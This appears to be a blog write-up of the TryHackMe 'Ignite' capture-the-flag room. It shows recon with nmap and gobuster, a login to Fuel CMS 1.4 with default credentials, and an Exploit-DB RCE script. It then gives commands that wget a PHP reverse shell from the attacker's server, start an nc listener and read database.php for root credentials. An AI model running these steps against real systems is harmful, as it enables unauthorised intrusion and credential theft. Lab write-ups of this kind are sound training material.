 ```yaml
---
layout: post
permalink: /posts/thm/ignite
title: "Ignite"
---
```


As always let's check what open ports the target machine has.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/ignite/nmap.png)

Based on the nmap result we can see that there is open port 80 with CMS (Content Management System) running on it. In addition we can notice that the CMS is Fuel CMS, also we can see that there is one disallowed entry in the robots.txt. Let's scan the web service for any hidden directories.

```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

While we are waiting for the result from gobuster we can visit the web page and look through it.

![website](/assets/images/thm/ignite/website.png)

There we can see the Fuel CMS version, it's 1.4. At the end of the page we can find endpoint to the admin panel as well as the default credentials.

![creds](/assets/images/thm/ignite/creds.png)

Navigate to this endpoint.

![login-page](/assets/images/thm/ignite/login-page.png)

An attempt to login with the found credentials was successful.

![fuel-login](/assets/images/thm/ignite/fuel-login.png)

Looking through google for any known exploits about Fuel CMS 1.4 I found the following RCE (Remote Code Execution) exploit:<https://www.exploit-db.com/exploits/50477>

I downloaded the exploit and rename the file to `exp.py`. Execute the script by providing `-u` switch and the address to the CMS service.  

```
./exp.py -u http://10.10.220.239
```

![exp-shell](/assets/images/thm/ignite/exp-shell.png)

We are able to execute any commands in the system where the CMS service is hosted but the result from the command is really slow, so I decided to create a reverse shell. I have used the following php script for reverse shell:  <https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php>

Once you create the reverse shell script on your host, start a python server to be able to download the script on the target machine.

```
python3 -m http.server
```

Now from the tab where we have already established RCE execute the following command.
```
wget http://10.10.240.3:8000/rev.php
```

Once the script is downloaded, start listener on our host.
```
nc -lvnp 4444
```

Now execute the reverse shell
```
php -f rev.php
```

![rev-shell](/assets/images/thm/ignite/rev-shell.png)

From here we are good to find the first flag. The last thing that we need to do is to escalate our privileges to root. As always let's check whether our user has the rights to execute any commands as root. But first we need to get a normal tty, otherwise some commands may not be executed (as sudo -l)

Stabilize shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

I checked for sudo rights with `sudo -l` and I also took a look at `/etc/crontab` for any cron jobs that could be ran. None of these method was successfull, however I remembered that in the Fuel CMS home page there were some information about database.

![esc](/assets/images/thm/ignite/esc.png)

Navigate to `/var/www/html/fuel/application/config` and read the database file.
```
cat database.php
```

![db-cred](/assets/images/thm/ignite/db-cred.png)

We have found some root credentials, let's check whether we can switch to root

![root](/assets/images/thm/ignite/root.png)

Here we go. We were able to escalate our privileges to root.
